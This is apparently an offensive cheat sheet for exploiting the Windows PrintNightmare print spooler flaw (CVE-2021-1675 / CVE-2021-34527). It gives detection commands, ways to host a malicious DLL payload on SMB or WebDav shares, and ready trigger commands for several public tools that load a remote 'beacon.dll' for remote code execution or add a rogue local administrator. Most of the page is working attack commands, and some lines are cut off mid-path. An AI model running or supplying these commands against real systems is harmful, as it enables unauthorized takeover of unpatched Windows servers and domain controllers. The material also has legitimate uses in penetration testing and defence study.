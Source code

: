 # Print Nightmare CVE-2021-1675 / CVE-2021-34527

### The DLL will be stored in C:\Windows\System32\spool\drivers\x64\3\ . The exploit will execute the DLL either from the local filesystem or a remote share.

## Requirements:

 - Spooler Service enabled (MANDATORY)

 - Server with patches < June 2021

 - DC with Pre Windows 2000 Compatiblity group

 - Server with registry key HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall = (DWORD) 1

 - Server with registry key HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA = (DWORD) 0

## Detect the vulnerability:

#### 1) Impacket rpcdump

 - python3 ./rpcdump.py @10.0.2.10 | egrep 'MS-RPRN|MS-PAR'

#### 2) It Was All A Dream (Github repo: https://github.com/byt3bl33d3r/ItWasAllADream)

 - git clone https://github.com/byt3bl33d3r/ItWasAllADream

 - cd ItWasAllADream && poetry install && poetry shell

 - itwasalladream -u user -p Password123 -d domain 10.10.10.10/24

### OR

 - docker run -it itwasalladream -u username -p Password123 -d domain 10.10.10.10

## Payload Hosting:

#### 1) The payload can be hosted on Impacket SMB Server since PR #1109:

 - python3 ./smbserver.py share /tmp/smb/

#### 2) Using Invoke-BuildAnonymousSMBServer (Admin rights required on host):

 - Import-Module .\Invoke-BuildAnonymousSMBServer.ps1; Invoke-BuildAnonymousSMBServer

#### 3) Using WebDav with SharpWebServer (Doesn't require admin rights):

 - SharpWebServer.exe port=8888 dir=c:\users\public verbose=true

### When using WebDav instead of SMB, you must add @[PORT] to the hostname in the URI, e.g.: \\172.16.1.5@8888\Downloads\beacon.dll WebDav client must be activated on exploited target. By default it is not activated on Windows workstations (you have to net start webclient ) and it's not installed on servers. Here is how to detect activated webdav:

 - cme smb -u user -p password -d domain.local -M webdav [TARGET]

## Trigger the exploit

#### 1) SharpNightmare

### Requires a modified Impacket: https://github.com/cube0x0/impacket

 - python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\
 
 - python3 ./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

### Local Privilege Escalation (LPE)

 - SharpPrintNightmare.exe C:\addCube.dll

### RCE using existing context

 - SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32\DriverStore\
 
### RCE using runas /netonly

 - SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' 'C:\Windows\System32

#### 2) Invoke-Nightmare

### LPE only (ps1 + dll)

 - Import-Module .\cve-2021-1675.ps1

 - Invoke-Nightmare (add user 'adm1n'/'P@ssw0rd' in the local admin group by default)

 - Invoke-Nightmare -DriverName "DRIVER_NAME" -NewUser "NEW_USER" -NewPassword "NEW_PASS"

 - Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

#### 3) Mimikatz v2.2.0-20210709+

### LPE 

 - misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll

### RCE

 - misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:DOMAIN

#### 4) PrintNightmare by @outflanknl

 - PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain]

## Debug Information

### Error --> Message --> Debug

 - 0x5 --> rpc_s_access_denied --> Permissions on the file in the SMB share

 - 0x525 --> ERROR_NO_SUCH_USER --> The specified account does not exist

 - 0x180 --> unknown error code --> Share is not SMB2
